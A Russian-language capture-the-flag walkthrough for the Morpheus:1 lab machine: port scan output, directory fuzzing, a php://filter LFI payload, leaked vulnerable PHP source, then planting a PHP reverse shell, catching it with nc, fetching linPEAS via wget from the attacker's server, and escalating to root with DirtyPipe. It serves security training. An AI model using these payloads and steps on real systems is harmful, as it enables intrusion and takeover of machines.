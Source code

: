 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|_  256 aa:83:c3:51:78:61:70:e5:b7:46:9f:07:c4:ba:31:e4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Morpheus:1
81/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Meeting Place
|_http-title: 401 Authorization Required
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

ffuf -u http://192.168.72.131/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -e .php,.txt,.html -ic -s - поиск файлов

index.html
javascript
robots.txt
graffiti.txt
graffiti.php - имеет возможность загружать сообщения

Заходим в burp для теста отправки сообщений на странице graffiti.php
==Тестируем LFI уязвимость в пути файла :== 
file=php://filter/read=convert.base64-encode/resource=graffiti.php

![[Pasted image 20241003183248.png]]

Получается закодированный в base64 код graffiti.php (при нажатие на поле откроется код)
`<<h1>
<center>
Nebuchadnezzar Graffiti Wall

</center>
</h1>
<p>
<?php

$file="graffiti.txt";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
    if (isset($_POST['file'])) {
       $file=$_POST['file'];
    }
    if (isset($_POST['message'])) {
        $handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
        fwrite($handle, $_POST['message']);
	fwrite($handle, "\n");
        fclose($file); 
    }
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
  echo fgets($handle);
  echo "<br>\n";
}
fclose($handle);
?>
<p>
Enter message: 
<p>
<form method="post">
<label>Message</label><div><input type="text" name="message"></div>
<input type="hidden" name="file" value="graffiti.txt">
<div><button type="submit">Post</button></div>
</form>
clear
clear`

==Загружаем web-shell:==
1. Копируем код с сайта https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
2. Вставляем весь код в "message= ..." и меняем айпи адрес + порт
3. прописывает путь в &file=shell.php
4. отправляем пакет:
![[Pasted image 20241003183745.png]]

5. Шелл успешно загружен на сайт
6. запускает nc -nvlp PORT для принятия шелла
7. Переходим на shell.php и принимаем шелл в консоли
8. проверяем папку ls и видим флаг
9. cat FLAG1.txt 
10. загружаем и запускаем linPEAS (скачиваем с гита последний релиз, открываем сервер в папке с файлов (python3 -m http.server PORT ), скачиваем на машине жертве wget http://IP:PORT/linPEAS, добавляем права на исполнение chmod +x linPEAS)
 ![[Pasted image 20241003184631.png]]
 11. Используем dirtyPipe с гита (https://github.com/r1is/CVE-2022-0847)
 12. Проделываем пункт 10 с dirtypipe
 13. получаем Рут
 14. ![[Pasted image 20241003184801.png]]
 15. забираем флаги из root 